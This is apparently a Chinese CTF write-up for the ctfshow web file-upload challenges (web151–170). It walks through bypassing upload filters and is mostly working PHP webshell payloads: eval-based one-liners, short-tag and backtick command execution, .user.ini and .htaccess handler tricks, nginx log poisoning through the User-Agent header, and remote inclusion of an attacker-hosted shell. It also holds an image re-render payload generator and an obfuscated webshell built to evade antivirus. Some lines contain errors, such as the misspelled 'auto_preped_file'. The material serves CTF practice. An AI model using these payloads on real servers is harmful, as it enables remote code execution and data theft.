## ctfshow-web文件上传


### 过滤模糊测试脚本：

我们先对文件内容做一下 fuzz 测试

```python
# 输入一串字符
input_string = input("请输入一串字符：")
 
# 将字符拆分成单个字符，并添加换行符
split_characters = "\n".join(input_string)
 
# 将结果写入 fuzz.txt 文件
with open("fuzz.txt", "w") as file:
    file.write(split_characters)
 
print("字符已拆分并写入 fuzz.txt 文件")
```



得到分解出来的文件去bp爆破一下就知道了

如图爆破：过滤了[



### web151

#### 前端Js校验，后端无验证

```
扩展知识：
前端校验是指在用户提交数据前，通过浏览器或客户端对数据进行验证，通常使用JavaScript、HTML 表单属性等实现
后端验证是指在接收到用户提交的数据后，服务器对数据进行校验和过滤，确保数据符合预期
```



先上传一个png木马，把后缀改一下就可以了，因为这个是前端验证，所以我们直接去改后缀就行了



或者改这里



把png改为php就可以了

然后用蚂剑连接




### web152

#### MIME类型验证

查看网页源代码，发现还是有前端限制，和上一题一样依然是改成php，上传失败，说明前后端都做了限制。

抓包，修改Content-Type：image/png，上传成功

```
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/png


<?php @eval($_POST["x"]);?>
```



然后连接蚁剑。


### web153

#### .use.ini配置文件利用

**前置知识点**

```js
.user.ini 可以将指定文件的内容插入到同目录下所有PHP文件的执行流程中。只要被包含的文件中含有有效的PHP代码，无论其文件扩展名是什么，其中的PHP代码都会被执行（其实就是文件包含）
auto_prepend_file = shell.png ; 在每个PHP文件前包含指定文件
auto_append_file = shell.png ; 在每个PHP文件后包含指定文件

```

这两个配置文件都可以让其它类型的文件被当做 php 文件进行解

```php
GIF89a
auto_prepend_file=shell.png
```



上传shell.php改shell.png


但是我们要找到一个php的文件来，这个题是index.php

被自动包含进原来目录里的 php 文件，一般是index.php



之后接去连接蚁剑


### web154

#### 大小写绕过

过滤用的函数是大小写敏感的strrpos ，因此可以用大小写绕过，其余操作同153

```
<?PhP @eval($_POST['cmd']); ?>

或者
<?php @eval($_REQUEST['cmd']); ?>
使用 $_REQUEST：比 $_POST 更宽泛，GET、POST、COOKIE 都能触发，更易利用。
```


### web155

#### 短标签语法绕过

用了更严格的 stripos函数，但可以用PHP中的短标签语法绕过

```shell
<?= 这是短标签语法 ?>
```


我们只需要修改我们的图片码为短标签，其余都是先上传.uin.in

```php
<?= @eval($_POST['cmd']); ?>
```


### web156

#### { }替换[ ]

通过爆破脚本发现，过滤了【，好像实际也过滤了；

我们使用 {} 代替：

```php
<?= @eval($_REQUEST{"cmd"}) ?>
```


### web157

#### 命令执行或者数组绕过

先传 .user.ini

继续在上一题 payload 的基础上进行模糊测试：

发现新增过滤大括号：{



因此我们一句话木马就不好写了，但是我们可以直接传入恶意的 php 代码，直接去执行读取它 flag 的命令：

```
<? system('tac ../f*') ?>
```


然后上传



访问 upload 目录：就可以得到flag


或者使用数组绕过

```php
<?=
array_map("assert",$_REQUEST)
?>
```


### web158

#### 日志包含

先传.user.ini

再命令执行

```
<? system('tac ../f*') ?>
```

或者数组绕过都可以

```
<?=
array_map("assert",$_REQUEST)
?>
```

这个也可以用**日志包含绕过**

这道题新增过滤了 log，我们使用点进行拼接绕过

```
<?=include '/var/l'.'og/nginx/access.l'.'og'?>
```


### web159

#### 反引号执行系统命令

在PHP中，反引号用于执行 shell 命令

```
<?=`cat ../flag.???`?>
```

依然是上传.user.ini，然后再上传图片马


### web160

#### 日志注入

```js
Nginx日志会记录每个请求的客户端ip、referer和UA头等等。攻击者常常通过篡改这些值来绕过一些限制，或者植入恶意代码。
Linux中nginx中间件日志的默认路径是/var/log/nginx/access.log
```

此题我们可以将恶意代码植入到nginx日志中，然后用.user.ini包含这个文来实现攻击。思路已经清晰，接下来就是实现

此题对log关键字也进行了限制，那么我们可以用“ . ”拼接字符串，图片马如下：

```
<?=include"/var/lo"."g/nginx/access.l"."og"?>
```

上传.user.ini和图片马访问发现，服务器确实对我们的请求信息做了记录，那我们是否可以通过修改UA头为一个恶意php代码，通过.user.ini包含到其他php中，来实现攻击呢



用hackbar修改文件头



查看源代码




得到flag


### web161

##### 伪造文件头

增加了文件头检测,在160题基础上，在我们的图片马中加入png文件头即可

```
GIF89a
<?=include"/var/lo"."g/nginx/access.l"."og"?>
```


### web162

#### 远程包含，点被过滤

配置文件无法上传 



进行模糊测试后，发现是点被过滤掉了



那么我们上传的文件名就不使用后缀即可

但是我们上传的内容里也无法使用点，因此日志文件包含和伪协议读取的方法都无法使用。

这里我们让其包含远程服务器上的木马：



转换脚本

```c++
#IP转换为长整型
def ip2long(ip):
    ip_list=ip.split('.') #⾸先先把ip的组成以'.'切割然后逐次转换成对应的⼆进制
    result = 0
    for i in range(4): #0,1,2,3
        result = result+int(ip_list[i])*256**(3-i)
    return result
 
#长整型转换为IP
def long2ip(long):
    floor_list = []
    num = long
    for i in reversed(range(4)):
        res = divmod(num,256**i)
        floor_list.append(str(res[0]))
        num = res[1]
    return '.'.join(floor_list)
 
print(ip2long('服务器ip地址'))
```

上传这个 test：

先命名为 test.png，绕过前端后抓包改回 test 再上传




### web163

#### 条件竞争

```
条件竞争是由于目标过滤逻辑不严导致的，简单来说，就是因为目标在文件上传以后才判断文件是否合规，如果合规，就保留；反正则立刻删除。
那么如果不断向目标发送请求包，写一个一旦被访问就会触发写入文件的php，然后再不断访问这个php，总有一刻会在目标来不及删除这个文件之前访问到它，从而实现攻击
```


### web164

#### PNG图片二次渲染

网站服务器会对上传的图片进行二次处理，对文件内容进行替换更新，根据原有图片生成一个新的图片，这样就会改变文件原有的一些内容，我们需要将一句话木马插入到数据不会被改变的位置，确保一句话木马不会受到二次渲染的影响。

#### 生成图片马：

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
    0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
    0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
    0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
    0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
    0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
    0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
    0x66, 0x44, 0x50, 0x33);
 
 
 
$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
}
 
imagepng($img,'./my.png');
?>
#<?=$_GET[0]($_POST[1]);?>
```



一开始一直出错，看了才知道要加

get 里面新增：

```php
&0=system
```

post：

```php
1=ls
```


有时候在 mode 为 raw 下发包，也可看到回显



有时候又不行



添加请求头：

```
Content-Type: application/x-www-form-urlencoded
```




读取flag

```
1=tac flag.php
```




### web165

#### JPG图片二次渲染

使用脚本生成绕过二次渲染的 jpg 图片马：

```php
<?php
    /*
    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.
    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>
    In case of successful injection you will get a specially crafted image, which should be uploaded again.
    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
    Sergey Bobrov @Black2Fan.
    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
    */
		
    $miniPayload = "<?=eval(\$_POST[1]);?>"; //注意$转义
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
 
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');
 
    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }
 
    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }
 
    class DataInputStream {
        private $binData;
        private $order;
        private $size;
 
        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }
 
        public function seek() {
            return ($this->size - strlen($this->binData));
        }
 
        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }
 
        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }
 
        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }
 
        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>
```

好多图片说没有用，所以找到一张图片去用。

先上传这个图片,然后再下载下来用脚本去渲染


上传之后再下载





但是好多jpg不能用啊

步骤就是，最后得到的新图片重新去上传到服务器上，然后就可以执行命令了。


### web166

#### zip文件注入后门

打开源代码发现只能传输zip的文件



上传 zip 成功后可以进行下载 

我们可以再zip文件中插入一句话木马



注意这里一定要在浏览器发请求，然后在抓包，用burp直接发是没成功的




### web167

#### .htaccess 绕过

提示：httpd

htaccess 文件是 Apache HTTP 服务器的目录级配置文件，它允许用户覆盖 Web 服务器的系统范围设置，而无需修改全局配置文件（例如 httpd.conf 或 apache2.conf）。

这里我们可以通过上传 .htaccess 文件，其内容设置如下：

```
<FilesMatch ".jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```

这里先改为 jpg 上传绕过前端限制后再改回 .htaccess 放包：



这个配置文件上传成功后，就会使 jpg 后缀的文件都被当做 php 文件解析。

接下来我们直接将一句话木马改为 jpg 后缀上传：

点击下载文件即可访问到一句话木马：



空白，说明上传解析成功。






### web168

#### 基础免杀

前端还是只能传 png

使用 burpsuite 抓包，改后缀重放回显 null



什么都没有回显

做了一下 fuzz 测试：

单个的字符都是没问题的，但是合在一起传的内容就有问题，并不是像前面对内容进行过滤那样简单，查看提示：基础免杀。

测试关键字：eval、system、assert、$_POST

均返回 null，猜测应该是过滤掉了一些危险函数和关键字

找到了一个免杀的木马：

```php
<?php $bFIY=create_function(chr(25380/705).chr(92115/801).base64_decode('bw==').base64_decode('bQ==').base64_decode('ZQ=='),chr(0x16964/0x394).chr(0x6f16/0xf1).base64_decode('YQ==').base64_decode('bA==').chr(060340/01154).chr(01041-0775).base64_decode('cw==').str_rot13('b').chr(01504-01327).base64_decode('ZQ==').chr(057176/01116).chr(0xe3b4/0x3dc));$bFIY(base64_decode('NjgxO'.'Tc7QG'.'V2QWw'.'oJF9Q'.''.str_rot13('G').str_rot13('1').str_rot13('A').base64_decode('VQ==').str_rot13('J').''.''.chr(0x304-0x2d3).base64_decode('Ug==').chr(13197/249).str_rot13('F').base64_decode('MQ==').''.'B1bnR'.'VXSk7'.'MjA0N'.'TkxOw'.'=='.''));?>
```

连接密码: TyKPuntU 


最后也是成功读取到flag


```
TyKPuntU=system('tac ../flag.php');
```


如果这里不上一句话木马，我们还可以使用反引号来执行命令

```
<?=`ls ..`;
```



```
读取 flag：

<?=`tac ../flagaa.php`;
```


### web169

#### 高级免杀

前端只能传 zip，抓包绕过即可 



但是在后端上传发现不行，这段 unicode 编码在前面遇到过，文件类型没对。



需要修改 content-type 为：image/png

至于文件后缀并不影响，php 也可以：

测一下上一题的木马，过不了：



这里直接把尖括号（大于小于号）都给毙掉了：


限制增多，依旧是日志注入，这道题前端限制只能上传zip文件，后端限制MIME类型为png,访问，提示404.说明此目录下暂时找不到可以包含的php，于是我们自己上传一个php文件（尽量简单，防止被ban）


接着上传一个.user.ini文件包含日志文件

```
auto_preped_file=/var/log/nginx/access.log

```

于是，该目录下面的所有php文件都有了日志记录，比如我们刚刚上传的2.php

然后在u-a头里面设置shell






### web170

#### 日志包含

传配置文件：



这里的 payload 就直接读 flag 了：




